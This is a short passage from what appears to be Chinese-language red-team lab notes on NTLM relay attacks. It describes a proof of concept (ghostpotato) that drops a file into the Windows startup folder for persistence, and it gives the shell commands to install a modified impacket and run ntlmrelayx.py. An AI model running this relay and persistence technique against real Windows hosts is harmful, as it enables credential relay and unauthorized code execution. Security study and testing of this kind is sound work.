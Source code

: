     ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/22.png)

    POC 会自动上传文件到 WIndows 启动目录，用户下次登录时自启动

    ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/23.png)

- [Lz1y/impacket-ghostpotato](https://github.com/Lz1y/impacket-ghostpotato)
    ```
    cd impacket-ghostpotato
    pip uninstall impacket
    pip install .
    cd examples
    python ntlmrelayx.py --no-smb-server -smb2support
    ```

这里需要注意的是这里当然也受到 kb2871997 的限制，所以在 Windows 2012 以及之后的版本中也需要 rid500 的账户才能成功，后续也一样
